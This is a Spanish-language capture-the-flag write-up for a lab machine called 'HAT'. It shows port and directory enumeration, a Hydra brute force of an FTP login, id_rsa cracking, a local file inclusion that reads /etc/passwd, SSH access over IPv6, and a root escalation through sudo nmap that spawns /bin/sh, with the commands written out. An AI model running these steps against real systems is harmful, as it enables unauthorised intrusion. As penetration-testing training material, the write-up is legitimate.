

# HAT

## 0. HERRAMIENTAS

- Puertos filtrados
- Ataque fuerza bruta FTP (Hydra)
- RSACrack
- Binario nmap

## 1. ENUMERACION

Busco la maquina en la red con arp-scan



Enumeramos puertos


Vemos los siguientes puertos abiertos

- 22: Este aparece filtrado
- 80
- 65535

Lanzamos un escaneo más exhaustivo sobre esos puertos


Podemos ver que sobre el puerto **65535** hay montado un FTP

## 2. COMPROMISO DEL ENTORNO

Intentamos conectarnos con usuario anónimo, pero no lo permite


El puerto **80** nos devuelve la pagina estándar de Apache


Voy a enumerar directorios, esta vez con la herramienta **FUFF**

wfuzz -c -t 200 --hc=404 --hw=933 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt [http://192.168.1.24/FUZZ](http://192.168.1.24/FUZZ)


Vemos 2 directorios interesantes

- logs
- php-scripts

Buscamos archivos con extensión log,php,txt, html dentro del directorio logs

```jsx
ffuf -c -t 200 --fc=404  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .log,.txt,.php,.html -u [http://192.168.69.234/logs/FUZZ](http://192.168.69.234/logs/FUZZ) -mc 200
```


Encontramos fichero **vsftpd.log**

Hago la misma enumeración con FUZZ

```jsx
wfuzz -c -t 200 --hc=404 --hw=0 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,php-txt-log [http://192.168.1.24/logs/FUZZ.FUZ2Z](http://192.168.1.24/logs/FUZZ.FUZ2Z)
```


Accedo al log que nos indica y vemos el usuario admin_ftp


Con HYDRA hacemos un ataque de fuerza bruta al ftp

```jsx
hydra -t 50 -l admin_ftp -P /usr/share/wordlists/rockyou.txt [ftp://192.168.](ftp://192.168.1.24/)69.234 -s 65535 -V -f -I
```


Ya tenemos:

- usuario: admin_ftp
- password: cowboy

Accedemos correctamente al FTP


Descargamos los 2 ficheros que hay dentro del directorio share


Con ls -la comprobamos el propietario de esos 2 archivos. Tenemos el usuario, pero más adelante veremos otra forma de sacar el /etc/passwd


Vemos el contenido de la nota y del id_rsa


Crackeamos el id_rsa con el RSAcrack


Hago la enumeración de php-scripts


Encontramos el fichero file.php


Probamos a hacer la enumeración con GOBUSTER

```jsx
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://192.168.69.234/php-scripts/' -x 'html,txt,php'
```


Vamos a intentar explotar un LFI en el file.php

Lo vamos a hacer de 2 maneras, con WFUZZ y FFUF

- Con WFUZZ

```jsx
wfuzz -c --hc=404 --hl=0 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt  [http://192.168.69.234/php-scripts/file.php?FUZZ=/etc/passwd](http://192.168.69.234/php-scripts/file.php?FUZZ=/etc/passwd) 
```


- Con FUFF

```jsx
ffuf -c -t 200 --fc=404 --fs=0 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -u [http://192.168.69.234/php-scripts/file.php?FUZZ=/etc/passwd](http://192.168.69.234/php-scripts/file.php?FUZZ=/etc/passwd) -mc 200
```


En ambos casos vemos que el 6 es susceptible al LFI

Vemos el contenido de esa url y comprobamos que el usuario cromiphi que encontramos en el ftp es usuario de la máquina


En la enumeración vimos que el puerto 22 estaba filtrado, esto puede ser porque esté filtrado para ipv4 pero no por ipv6.

Para encontrar la ipv6 de nuestra máquina objetivo lanzamos un ping6 -c2 -I eth0 ff02::1


Lanzamos un nmap y vemos que el puerto 22 ahora si que está abierto


Accedemos con el usuario cromophi y el id_rsa


## 3. ESCALADA DE PRIVILEGIOS


Buscamos dentro gtfobins

[https://gtfobins.github.io/gtfobins/nmap/#shell](https://gtfobins.github.io/gtfobins/nmap/#shell)

Encontramos:


Realizamos los pasos:

```jsx
cromiphi@hat:~$ TF=$(mktemp)
cromiphi@hat:~$ echo 'os.execute("/bin/sh")' > $TF
cromiphi@hat:~$ sudo -u root /usr/bin/nmap --script=$TF
Starting Nmap 7.70 ( [https://nmap.org](https://nmap.org/) ) at 2024-03-03 13:04 CET
NSE: Warning: Loading '/tmp/tmp.PBPSL6uBGa' -- the recommended file extension is '.nse'.
```


